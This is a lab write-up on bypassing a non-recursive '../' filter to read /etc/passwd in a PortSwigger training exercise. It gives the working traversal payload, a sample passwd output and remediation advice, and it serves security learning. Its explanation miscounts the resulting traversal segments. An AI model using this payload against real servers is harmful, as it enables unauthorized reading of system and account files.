

# Path Traversal Vulnerability Exploitation Report

## Lab: File Path Traversal – Non-Recursive Stripping Bypass

### Objective
Retrieve the contents of the `/etc/passwd` file by exploiting a path traversal vulnerability where the application strips traversal sequences non-recursively.

### Vulnerability Description
The application displays product images using a `filename` parameter. It attempts to secure the endpoint by stripping path traversal sequences (`../`) from the user-supplied input. However, the stripping is performed only once and non-recursively, allowing an attacker to bypass the filter by using nested or obfuscated traversal sequences.

### Exploitation Steps

1. **Intercept a request** for a product image using Burp Suite.
   - Example endpoint:
     ```
     GET /image?filename=image1.jpg
     ```

2. **Modify the `filename` parameter** with the following payload:
   ```
   ....//....//....//etc/passwd
   ```

3. **Explanation of the payload**:
   - The application strips one occurrence of `../` from the input.
   - After stripping `../`, `....//` becomes `../`.
   - Repeating this pattern three times results in:
     ```
     ../../../../etc/passwd
     ```
   - The server then resolves the path relative to the image directory and reads `/etc/passwd`.

4. **Send the request** and observe the response.

### Result
The response contains the contents of the `/etc/passwd` file, confirming successful exploitation.

### Sample Response (partial)
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### Remediation Recommendations
- Use a whitelist of allowed filenames or identifiers.
- Sanitize user input recursively until no traversal sequences remain.
- Store files with random, unpredictable names and map them internally.
- Avoid using user-supplied input directly in filesystem operations.

### Tools Used
- Burp Suite (Proxy & Repeater)
- Web browser

### Reference
- PortSwigger Web Security Academy – Path Traversal

---
*Report prepared for educational and professional portfolio purposes.*
